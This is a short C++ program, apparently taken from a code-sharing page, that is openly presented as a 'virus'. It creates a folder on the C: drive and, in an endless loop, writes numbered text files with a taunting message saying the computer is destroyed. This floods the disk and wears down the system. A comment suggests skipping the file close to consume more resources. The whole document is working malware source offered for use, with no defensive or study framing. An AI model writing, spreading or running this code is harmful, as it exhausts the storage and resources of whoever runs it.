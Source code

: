 #include <iostream>
#include <fstream>
#include <string>
#include <direct.h>

int main()
{
    long i = 0;                                                                                                           // starts a counting number this will help this program to create separate files
    const char* path = "C:\\Virus\\";                                                                                     // location in which all files are going to stored
    std::string content = "Your computer is destroyed get a new one. 0x0 MB/Sin Seccondon your Computer HAHAH!";     // the content of our files
    _mkdir(path);                                                                                                  // creates a folder in c: drive in which files are going to written in and saved
    while (true)                                                           // an infinite loop
    {
        i++;                                                              // adds i to itself every time
        std::ofstream file;                                               // creates a constructor this will save our file
        file.open(path + std::to_string(i) + ".txt", std::ios_base::out); // creates a file to a location
        file << content;                                                  // writes the content in the file and then saves it
        file.close();                                                     // closes the file // if you want to take more resources don't write this line
        std::cout << "File created: " + std::to_string(i) + "\r\n";       // gives us an accurate number of files created inside a directory
    }
}
